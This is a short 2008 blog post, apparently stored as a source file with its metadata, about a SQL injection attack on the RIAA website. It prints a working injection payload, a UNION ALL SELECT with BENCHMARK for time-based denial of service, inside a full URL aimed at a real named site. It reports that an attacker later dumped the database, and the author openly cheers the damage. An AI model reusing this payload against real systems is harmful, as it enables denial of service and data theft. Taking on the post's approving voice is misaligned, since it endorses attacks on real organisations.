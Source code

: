author: Marcin
disqus_id: 70cdae65-fc83-40dd-b806-36a90b2c1a0b
disqus_url: http://www.tssci-security.com/archives/2008/01/20/sql-injection-fun-vriaa/
mod_date: 2008-01-20 16:39:00
parent: 0
post_id: 366
post_type: post
pub_date: 2008-01-20 16:37:34
public: 'yes'
slug: sql-injection-fun-vriaa
tags:
- hacking
- news
template: post.html
title: SQL Injection Fun v.RIAA

SQL Injection Fun v.RIAA
########################

What started as a simple `DoS against the RIAA through a SQL injection
vulnerability <http://reddit.com/info/660oo/comments/>`_, originally
posted to Reddit in `tinyurl
form <http://riaa.com/news_room.php?resultpage=9&news_year_filter=2007%20UNION%20ALL%20SELECT%20BENCHMARK(100000000,MD5('asdf')),NULL,NULL,NULL,NULL%20-->`_.

``UNION ALL SELECT BENCHMARK(100000000,MD5('asdf')),NULL,NULL,NULL,NULL%20--``

led an attacker on to dump their entire database. I sure hope they don't
have backups -- part of me thinks they deserve it and wants them to
suffer... muwhahaha
